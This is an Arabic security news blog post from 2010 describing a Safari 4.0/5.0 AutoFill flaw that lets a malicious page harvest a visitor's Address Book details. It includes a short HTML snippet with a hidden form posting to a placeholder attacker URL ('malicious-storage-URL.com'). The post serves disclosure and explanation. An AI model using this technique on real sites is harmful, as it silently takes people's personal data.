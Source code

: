 ```yaml
---
author: Xacker
date: 2010-07-25T12:23:35.000Z
draft: false
title: 'الكشف عن ثغرة في متصفح Safari تعرض بيانات المستخدم للسرقة  '
type: post
url: /2010/07/apple-safari-vulnerability/
categories:
  - Apple
  - Security
  - متصفحات
tags:
  - Apple
  - Safari
  - vulnerability
coverImage: /static/images/apple-safari-vulnerability/safari_hacked.jpg
excerpt: >-
  **[الكشف عن ثغرة في متصفح Safari تعرض بيانات المستخدم
  للسرقة](it-scoop.com/2010/07/apple-safari-vulnerability)**


  تم الإعلان عن وجود خلل أمني في التصميم في متصفح Safari للإصدارين 4.0 و 5.0
  يسمح للمهاجم بالحصول على بيانات شخصية خاصة بالزائر مثل (الاسم، العنوان،البريد
  الالكتروني، ...)




  المشكلة الأمنية تظهر في
---
```

**[الكشف عن ثغرة في متصفح Safari تعرض بيانات المستخدم للسرقة](it-scoop.com/2010/07/apple-safari-vulnerability)**

تم الإعلان عن وجود خلل أمني في التصميم في متصفح Safari للإصدارين 4.0 و 5.0 يسمح للمهاجم بالحصول على بيانات شخصية خاصة بالزائر مثل (الاسم، العنوان،البريد الالكتروني، ...)

![](/static/images/apple-safari-vulnerability/safari_hacked.jpg)

المشكلة الأمنية تظهر في حال قيام مستخدم ما بزيارة موقع خبيث، حتى لو لم يزره من قبل، ولم يدخل أي بيانات شخصية أيضاً، فيكون بمقدور الموقع كشف اسمه الكامل، مكان العمل، المدينة، الولاية (في حال كونه في الولايات المتحدة) بريده الالكتروني الشخصي!

يأتي متصفح Safari في الإصدارين 4.0 و 5.0 والذي يملك حوالي 4% من حصة السوق (أي تقريباً 83 مليون مستخدم)، بميزة على المسار (Preferences > AutoFill > AutoFill web forms) مفعّلة بشكل افتراضي.

![](/static/images/apple-safari-vulnerability/prefs.png)

هذه الميزة "AutoFill" تقوم بملء حقول الإدخال النصية في صفحات HTML والتي تحمل خصائص معينة مثل name, company, city, state, country, email, الخ.

مثال:

~~~
<form>
<input type="text" name="company"></input>
<input type="text" name="email"></input></form>
~~~

يتم ملء هذه الحقول باستخدام بيانات من سجل المستخدمين الخاص في دفتر العناوين الخاص بنظام التشغيل المستخدم ومن المهم التذكير بأن هذه الخاصة تعمل حتى لو لم يقم المستخدم بإدخال مثل هذه البيانات من قبل لأنها مختلفة عن ميزة الإكمال التلقائي والتي يقوم المتصفح بتذكر بعض ما قمت بإدخاله مؤخراً في بعض حقول الإدخال النصية في المواقع التي تستخدمها.

كل ما يحتاج إلى القيام به أي موقع خبيث لاستخراج هذه المعلومات بمعاونة متصفح Safari هو أن يقوم بإنشاء نموذج (Form) إدخال كالمثال الذي ذكرناه، حتى لو بشكل مخفي، ومن ثم "محاكاة" نقرات المفاتيح ضمنها لإيهام المتصفح بأن المستخدم هو من يقوم بالنقر على لوحة المفاتيح. عندما يتم جلب البيانات والتي يتم ملؤها بشكل آلي، يصبح بإمكان المهاجم الوصول إليها من خلال إرسالها دون علم المستخدم إلى العنوان الذي يحدده في النموذج

~~~
<form action="http://www.malicious-storage-URL.com"></form>
~~~

قام Robert Hansen المعروف بـ "RSnake" أحد الخبراء المعروفين في عالم الأمن (والذي بالتأكيد قرأتم شيئاً من كتاباته في موقع [http://ha.ckers.org](http://ha.ckers.org/)) باستضافة دليل [proof-of-concept](http://ha.ckers.org/weird/safari_autofill.html) على وجود المشكلة – لو كنت تود التجربة والإطلاع وتقلق بشأن بياناتك تستطيع تغييرها قبل زيارة الموقع من خلال Address Book كما تظهر الصورة

![](/static/images/apple-safari-vulnerability/address-book.png)

وفقاً لما تذكره مدونة Jeremiah Grossman أحد الأسماء المعروفة أيضاً في عالم أمن المعلومات فإنه من حسن الحظ أن أرقام الهاتف "لسبب ما" لا يتم إظهارها بهذه الطريقة.

قمت بتجربة الدليل المنشور على موقع RSnake وفيما يلي صورة للنتائج

![](/static/images/apple-safari-vulnerability/autofill-poc.png)

تجدر الإشارة إلى أن Jeremiah Grossman قد قام بإبلاغ Apple حول المشكل لكن لم يتلق سوى رد آلي على رسالته، و بعد عدم الحصول على أي رد على مراسلة ثانية قرر الكشف عن الثغرة ليسمع صوته بشكل أفضل :)

للإطلاع على المزيد من المعلومات حول الخبر يمكن مراجعة [التدوينة](http://jeremiahgrossman.blogspot.com/2010/07/i-know-who-your-name-where-you-work-and.html) الأصلية.
